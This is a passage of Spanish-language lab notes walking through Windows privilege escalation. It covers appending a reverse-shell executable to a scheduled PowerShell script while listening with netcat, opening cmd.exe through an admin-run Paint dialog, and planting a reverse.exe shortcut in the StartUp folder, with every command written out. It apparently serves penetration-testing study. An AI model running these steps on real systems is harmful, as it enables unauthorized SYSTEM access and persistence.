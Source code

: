 Ahora nos ponemos en escucha con netcat y añadimos nuestro payload al script
```
echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1
```
![[Pasted image 20240722123755.png]]

Y ahora estando en escucha con netcat esperaremos a que se ejecute la tarea para obtener la reverese shell como System
![[Pasted image 20240722123837.png]]

# **Insecure GUI Apps**
Ahora estamos conectados por RDP y tenemos abierta la herramienta de paint con el usuario user y podemos ver que se ha ejecutado como admin
![[Pasted image 20240722124402.png]]

Ahora abrimos el paint y seleccionamos archivo y abrir
![[Pasted image 20240722124721.png]]

Y ahora pegamos la ruta para que nos abra el cmd
```
c:/windows/system32/cmd.exe
```
![[Pasted image 20240722124754.png]]

Y al abrirlos se nos abrirar el terminal como si fueramos admin
![[Pasted image 20240722124835.png]]

# **Startup Apps**
Revisamos los permisos del directorio de `StartUp` que es la carpeta la cual se colocan los programas y scripts que se ejecutan automáticamente cuando se inicia sesión en el sistema
```
C:\PrivEsc\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
```
![[Pasted image 20240722132529.png]]

Ahora crearemos un acceso directo de nuestro paylaod con el siguiente script de powershell
```Powershell
$WshShell = New-Object -ComObject WScript.Shell
$Shortcut = $WshShell.CreateShortcut("C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\reverse.lnk")
$Shortcut.TargetPath = "C:\PrivEsc\reverse.exe"
$Shortcut.Save()
```
![[Pasted image 20240722134035.png]]

Si vamos a la ruta podemos ver que ya tenemos el acceso directo creado
![[Pasted image 20240722134133.png]]
